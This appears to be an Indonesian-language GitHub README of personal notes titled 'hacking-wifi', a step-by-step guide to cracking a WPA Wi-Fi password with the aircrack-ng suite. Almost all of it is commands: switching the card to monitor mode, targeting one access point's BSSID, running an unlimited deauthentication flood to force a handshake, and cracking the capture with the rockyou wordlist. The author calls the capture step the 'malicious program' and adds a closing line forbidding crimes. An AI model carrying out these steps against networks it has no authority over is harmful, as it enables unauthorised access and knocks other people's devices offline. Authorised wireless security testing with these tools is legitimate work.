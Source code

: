 # hacking-wifi >>> airmon-ng >>> aerodump-ng >>> aircrack-ng 

sekedar catatan jika lupa </p>
untuk memulai percobaan harap memakai jaringan wifi kalian terlebih dahulu..

## TUTORIAL HACK WIFI + CRACKING 

untuk membuka ip address ketikkan perintah :
```bash
ip addr
```

pengaturan semula wificard biasanya dalam mode managed 
bisa di cek lewat perintah :
```bash
iwconfig
```
untuk menghindari konfik jaringan (refresh) bisa dengan perintah :</p>
catatan : ini mematikan semua koneksi internet!
```bash
sudo airmon-ng check kill
```
untuk mengubah dari mode managed ke mode monitor :
```bash
sudo airmon-ng start wlan0
```
ketikkan perintah di bawah ini untuk cek apakah sudah dalam mode monitor atau tidak
```bash
iwconfig
```
cek nama interface wifi - wificard : umunnya adalah wlan0/wlan0mon
```bash
sudo airmon-ng
```
untuk memonitoring jaringan wifi yang tersedia :</p> 
(ctrl+c) untuk stop scan 
```bash
sudo airodump-ng wlan0
```
jangan lupa untuk mencatatat bssid target dan channelnya...
</p>
catat bssid target contoh  : 98:F4:28:47:85:C8 >>> berada di channel : 11
<p>
jika sudah kita saring/filter single target memakai perintah :

```bash
sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8
```
sekarang waktunya menyimpan + menjalankan progam jahatnya..
sebagai contoh seperti ini : 
```bash
sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
```
catatan : 
* opsi -w untuk menyimpan file 
* opsi hack1 : nama file
* opsi -c : channel wifi
* opsi --bssid : alamat bssid target (ganti bssid target yg di atas hanyalah sebuah contoh saja)
* opsi wlan0 nama perangkat wifi/card

setelah dirasa sudah paham bukalah terminal baru / tab baru
ketikkan :
```bash
sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 
```
jika berhasill sniff jaringan ada yg berjabat tangan
otomatis di terminal pertama akan ada tulisan (wpa handsake)
atau tulisan AEPOL / apa ya saya lupa ...
itu berarti program sdh berhasil mendapatkan jabat-tangannya.
harap di ingat kita hanya butuh 2 tab terminal yg berjalan..

silahkan close semua program di terminalnya,
bisa menggunakan ctrl+c 
sekarang waktunya ganti program aircrack
perlu diketahui file yg tersimpan biasanya tersimpan di path HOME/
untuk mengetahui tentang informasi hasil snif tsb 
bukalah file - contoh file hack1.pap dengan program wireshark
bisa dilakukan dengan terminal di path nya:
```bash
wireshark hack1-01.cap
```
atau bisa membuka dengan doble click di filenya
opsional : untuk menghidupkan jaringan internet seperti semula :
```bash
sudo airmon-ng stop wlan0 - monitor disable
```
sekarang kita akan menjalankan program AIRCRACK
ketikkan :
```bash
sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
gantilah nama file hack1-01.cap dengan file yg tersimpan di direktori kalian </p>
catatan :
jika file rockyou.txt blm ada kalian bisa ektrak dlu file tsb
cari di direktori /usr/share/wordlist/

tunggu beberapa saat aircrack mengidentifikasi sandi </p>
hasil crack sandi berbeda-beda tergantung kesulitannya</p>
semakin rumit sandi itu akan semakin lama </p>
apalagi sandi tsb di atas 10 karakter dan angka</p> 
jadi jangan berharap itu bs berhasil cepat dan sempurna...




opsional : tambahan untuk mengecek wifi adapter kamu support inject atau tidak nya :
```bash
aireplay-ng -9 wlan0
```
```bash
iw list | grep AP$
```

sekian catatan informasi untuk menjalankan sebuah program aircrack dan kawan2nya....</p>

## DILARANG KERAS UNTUK MELAKUKAN TINDAK KEJAHATAN
